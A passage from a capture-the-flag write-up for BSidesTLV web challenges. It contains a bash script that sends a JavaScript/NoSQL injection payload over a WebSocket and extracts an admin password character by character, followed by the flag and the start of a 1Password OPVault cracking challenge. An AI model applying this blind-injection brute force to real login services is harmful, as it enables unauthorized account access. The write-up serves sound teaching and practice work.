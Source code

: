 <div class="filename"><span>nosocket.sh</span></div>

```bash
#!/bin/bash
SERVER=ws://challenges.bsidestlv.com:8000/login
EXPLOIT="{\"username\":\"admin\",\"password\":\"' || this.password["

for i in $(seq 0 40); do
  for c in $(seq 32 126); do
    STATUS=$(echo "${EXPLOIT}$i] == '$(printf \\$(printf %o $c))\"}"\
             | websocat $SERVER)
    if [ "$STATUS" == "Success!" ]; then
      printf \\$(printf "%o" $c)
    fi
  done
done

echo
```

The script is basically a wrapper around `websocat`, a command-line WebSocket [client](https://github.com/vi/websocat). We send the injection string in JSON over to the WebSocket server and wait for the response. If the response is `Success!`, the test character gets printed out.

Here's a teaser animation of the script in action.

![nosocket.gif](/assets/images/posts/bsidestlv-web/nosocket.gif)

<script>
  var vid = document.getElementById("video");
  vid.playbackRate = 2.0;
</script>

The flag is `BSidesTLV{0r0n3Equ4l0n3!}`.

### IAmBrute

This is how the challenge looks like.

![b8e9066d.png](/assets/images/posts/bsidestlv-web/b8e9066d.png)

There's a link to download an attachment, an archive file.

![3f032079.png](/assets/images/posts/bsidestlv-web/3f032079.png)

Looks like we have a 1Password [OPVault](https://support.1password.com/opvault-design/). After reading the design paper, the entire design is succinctly summarized in a sweet poem.

> Each item key’s encrypted with the master key  
> And the master key’s encrypted with the derived key  
> And the derived key comes from the MP  
> Oh hear the word of the XOR  
> Them keys, them keys, them random keys (3x)  
> Oh hear the word of the XOR  
